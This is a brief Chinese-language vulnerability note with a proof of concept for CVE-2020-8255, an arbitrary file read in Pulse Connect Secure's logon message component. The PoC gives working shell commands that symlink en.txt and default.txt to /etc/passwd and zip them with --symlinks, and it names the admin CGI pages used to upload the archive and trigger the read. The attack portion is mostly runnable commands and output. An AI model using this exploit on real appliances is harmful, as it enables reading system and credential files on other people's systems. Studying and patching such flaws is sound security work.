 # CVE-2020-8255 Pulse Connect Secure通过登录消息组件实现任意文件读取

概述：

Pulse Connect Secure在登录前/后消息组件中存在任意文件读取漏洞。经过身份验证的管理用户可以利用此漏洞从底层操作系统读取任意文件。

PoC：


```bash
首先创建en.txt和default.txt文件：
ln -s /etc/passwd default.txt
ln -s /etc/passwd en.txt
使用--symlinks选项压缩文件：
zip --symlinks logon.zip default.txt en.txt
adding: default.txt (stored 0%)
adding: en.txt (stored 0%)
```

通过/dana-admin/auth/signinNotif.cgi页面上传zip包，最后通过/dana-admin/auth/signinPolicy.cgi触发任意文件读取。

![](media/16097309753555/16097310084538.jpg)


ref：

https://research.nccgroup.com/2020/10/26/technical-advisory-pulse-connect-secure-arbitrary-file-read-via-logon-message-cve-2020-8255/

https://forum.ywhack.com/thread-114616-1-6.html